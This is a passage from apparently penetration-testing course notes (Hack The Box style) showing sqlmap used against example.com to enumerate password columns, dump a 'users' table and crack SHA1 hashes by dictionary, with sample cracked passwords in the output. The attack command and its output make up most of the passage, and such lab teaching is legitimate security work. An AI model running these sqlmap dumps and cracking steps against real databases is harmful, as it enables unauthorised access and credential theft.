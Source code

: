 ```shell-session
[1 column]
+----------+--------------+
| Column   | Type         |
+----------+--------------+
| password | varchar(512) |
+----------+--------------+

Database: mysql
Table: user
[1 column]
+----------+----------+
| Column   | Type     |
+----------+----------+
| Password | char(41) |
+----------+----------+

Database: mysql
Table: servers
[1 column]
+----------+----------+
| Column   | Type     |
+----------+----------+
| Password | char(64) |
+----------+----------+
```

***

### Password Enumeration and Cracking

Once we identify a table containing passwords (e.g. `master.users`), we can retrieve that table with the `-T` option, as previously shown:

```shell-session
smoothment@htb[/htb]$ sqlmap -u "http://www.example.com/?id=1" --dump -D master -T users

...SNIP...
[14:31:41] [INFO] fetching columns for table 'users' in database 'master'
[14:31:41] [INFO] fetching entries for table 'users' in database 'master'
[14:31:41] [INFO] recognized possible password hashes in column 'password'
do you want to store hashes to a temporary file for eventual further processing with other tools [y/N] N

do you want to crack them via a dictionary-based attack? [Y/n/q] Y

[14:31:41] [INFO] using hash method 'sha1_generic_passwd'
what dictionary do you want to use?
[1] default dictionary file '/usr/local/share/sqlmap/data/txt/wordlist.tx_' (press Enter)
[2] custom dictionary file
[3] file with list of dictionary files
> 1
[14:31:41] [INFO] using default dictionary
do you want to use common password suffixes? (slow!) [y/N] N

[14:31:41] [INFO] starting dictionary-based cracking (sha1_generic_passwd)
[14:31:41] [INFO] starting 8 processes 
[14:31:41] [INFO] cracked password '05adrian' for hash '70f361f8a1c9035a1d972a209ec5e8b726d1055e'                                                                                                         
[14:31:41] [INFO] cracked password '1201Hunt' for hash 'df692aa944eb45737f0b3b3ef906f8372a3834e9'                                                                                                         
...SNIP...
```